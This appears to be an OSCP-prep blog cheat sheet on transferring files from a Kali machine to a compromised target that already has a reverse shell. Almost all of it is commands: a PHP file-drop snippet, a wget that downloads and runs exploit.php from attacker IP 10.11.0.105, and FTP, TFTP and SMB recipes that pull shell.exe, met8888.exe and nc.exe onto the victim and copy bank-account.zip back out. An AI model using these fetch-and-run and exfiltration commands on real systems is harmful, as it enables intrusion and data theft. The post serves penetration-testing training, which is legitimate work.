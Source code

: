 ```yaml
---
title:  "Transfer files from Kali to the target machine"
date:   2018-03-26 03:22:33 +0800
categories: oscp
classes:
  - landing
---
```


Tranfer files to the target machine is particularly useful when we have already had a reverse shell on Windows. Windows does not have convenient commands to download files such as wget in Linux.

## If PHP RFI is available
Use PHP base64_decode
```php
<?php
$file = '/tmp/findsock';
$fp = fopen($file, 'wb');
fwrite($fp, base64_decode($encoded));
fclose($fp);
system("chmod 0777 " . $file);
echo system("ls -la /tmp");
?>
```

## To Linux machine
Use wget
```
cd /tmp && wget -O exploit.php 10.11.0.105/exploit.php && php -f exploit.php
```

## To Windows machine
### HTTP Server
```
python -m SimpleHTTPServer 80
```
### FTP Server
To start Python FTP server:
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
To put/get files:
```
echo open 10.11.0.105>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get shell.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```
### TFTP Server
To start Kali TFTP server:
```
service atftpd start
```
To get files (put does not work):
```
tftp -i 10.11.1.5 GET met8888.exe
tftp -i 10.11.0.105 PUT C:\bank-account.zip // Not working
```
If tftp is not available:
```
pkgmgr /iu:"TFTP"  
```
### SMB Server
To start SMB server:
```
python /opt/impacket/examples/smbserver.py ROPNOP /root/
```
To put/get files:
```
copy \\10.11.0.105\ROPNOP\nc.exe .
copy C:\bank-account.zip \\10.11.0.105\ROPNOP\
```
**References**
- [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
- [http://ostrokonskiy.tk/2017/01/23/windows-privilege-escalation/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
